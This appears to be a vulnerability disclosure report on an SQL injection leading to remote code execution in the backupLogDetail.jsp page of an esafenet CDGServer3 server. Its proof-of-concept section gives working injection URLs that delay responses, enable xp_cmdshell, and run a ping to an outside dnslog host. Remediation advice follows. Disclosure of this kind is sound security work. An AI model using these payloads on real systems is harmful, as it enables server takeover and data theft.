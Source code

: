 ![image-20250221191115980](./assets/image-20250221191115980.png)

# Vulnerability Report

## Title: SQL Injection Leading to Remote Code Execution (RCE)

### Summary:
A critical SQL injection vulnerability has been identified in the `backupLogDetail.jsp` page of the application. This vulnerability allows an attacker to execute arbitrary SQL commands, which can lead to remote code execution on the server.

### Affected Endpoint:
`backupLogDetail.jsp`

### Vulnerability Type:
RCE

### Vulnerable Code:
```java
<%@ page language="java" contentType="text/html;charset=UTF-8" %>
<%@page import="com.esafenet.beans.log.LogTaskInfo" %>
<%@include file="/languageApplicationResources.jsp" %>
<%@page import="com.esafenet.dao.log.LogTaskDao,com.esafenet.dao.log.LogTaskUtil,com.esafenet.model.system.MultiServerConfigModel,java.util.List" %>
<%@ page import="java.util.Map" %>
<jsp:useBean scope="session" class="com.org.acl.LoginMng" id="loginMng"/>
<%
    String flag = request.getParameter("flag");
    if (MultiServerConfigModel.isMainServer()
            && !MultiServerConfigModel.isLiked(flag)
            && MultiServerConfigModel.isAllowMultiServer()) {
        response.sendRedirect(request.getContextPath() + "/system/multiServersList.jsp?/logManagement/clientLog.jsp");
        return;
    }
    String logTaskId = request.getParameter("logTaskId");
    LogTaskDao logTaskDao = new LogTaskDao();
    LogTaskInfo logTaskInfo = logTaskDao.findLogTaskById(logTaskId);

%>

<html>
<head>
    <meta>
    <title></title>
    <link rel="stylesheet" href="../style/style2/style.css"
          type="text/css">
    <link rel="stylesheet" href="../css/cssTable.css" type="text/css">
    <link rel="stylesheet" type="text/css" href="../css/DataGrid.css">
    <script type="text/javascript" src="../js/verify.js"></script>
    <script type="text/javascript" src="js/PopupCalendar.js"></script>
    <script type="text/javascript" src="../js/commons.js"></script>
    <script type="text/javascript" src="../js/prototype-1.6.0.2.js"></script>
    <script type="text/javascript" src="../dojojs/dojo.js"></script>
    <script language="javascript">

    </script>
</head>
<body class="main">
<form method="post" action="backupLogManagement.jsp" name="myForm">
    <input type="hidden" name="command" value="downLoadLogFiles">
    <input type="hidden" name="fromurl" value="">
    <input type="hidden" name="logFileName" value="">
    <table align="center" class="DataGrid" border="0" cellpadding="1" cellspacing="1" width="95%">
        <%
            if (logTaskInfo != null) {
                Map<String, String> otheroptions = LogTaskUtil.getOtheroptions(logTaskInfo.getOtheroptions());
                List<String> operateActions = LogTaskUtil.getOperateActions(logTaskInfo.getOperateActions());
                if (otheroptions != null) {
                    for (Map.Entry<String, String> entry: otheroptions.entrySet()) {
        %>
        <tr class="DataGridRow">
            <td align="right"><%=rp.getString(entry.getKey()) %>：</td>
            <td><%=rp.getString(entry.getValue()) %>
            </td>
        </tr>
        <%
                }
            }
            if (operateActions != null) {
                int size = operateActions.size();
                for (int j = 0; j < size; j++) {
                    if (j == 0) {
        %>
        <tr class="DataGridRow">
            <td rowspan="<%=size %>" align="right">操作动作：</td>
            <td><%=rp.getString(operateActions.get(j)) %>
            </td>
        </tr>
        <%} else { %>
        <tr class="DataGridRow">
            <td><%=rp.getString(operateActions.get(j)) %>
            </td>
        </tr>
        <% }
        }
        }
        } else {%>
        <tr class="DataGridRow">
            <td>没有数据！</td>
        </tr>
        <%} %>

    </table>
</form>
</body>
</html>

```

### Proof of Concept (PoC):
The following URLs demonstrate the exploitation of the SQL injection vulnerability:

1. Delay the response by 10 seconds:
    ```
    https://uri/CDGServer3/logManagement/backupLogDetail.jsp?logTaskId=1';WAITFOR DELAY '0:0:10'--
    ```

2. Enable advanced options and `xp_cmdshell`:
    ```
    https://uri/CDGServer3/logManagement/backupLogDetail.jsp?logTaskId=1';EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 1;RECONFIGURE;--
    ```

3. Execute a command to ping an external server:
    ```
    https://uri/CDGServer3/logManagement/backupLogDetail.jsp?logTaskId=1';exec master..xp_cmdshell 'ping 3eea7de8.log.dnslog.myfw.us.'--
    ```

![image-20250221192649559](./assets/image-20250221192649559.png)

### Impact:

An attacker can exploit this vulnerability to execute arbitrary SQL commands on the database. This can lead to unauthorized access to sensitive data, database corruption, and remote code execution on the server. The latter can result in a complete compromise of the server, allowing the attacker to execute arbitrary commands, install malware, and pivot to other systems within the network.

### Recommendation:
1. **Input Validation**: Ensure that all user inputs are properly validated and sanitized. Use prepared statements or parameterized queries to prevent SQL injection.
2. **Least Privilege**: Run the database with the least privileges necessary to reduce the impact of a successful injection.
3. **Error Handling**: Implement proper error handling to prevent detailed error messages from being displayed to the user.
4. **Regular Audits**: Conduct regular security audits and code reviews to identify and address potential vulnerabilities.

### Conclusion:
The identified SQL injection vulnerability in the `backupLogDetail.jsp` page poses a significant security risk, potentially leading to remote code execution and complete server compromise. Immediate remediation is required to protect the integrity and security of the application and its data.

### References:
- [OWASP SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)
- [OWASP Top 10](https://owasp.org/www-project-top-ten/)
- [SQL Injection Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)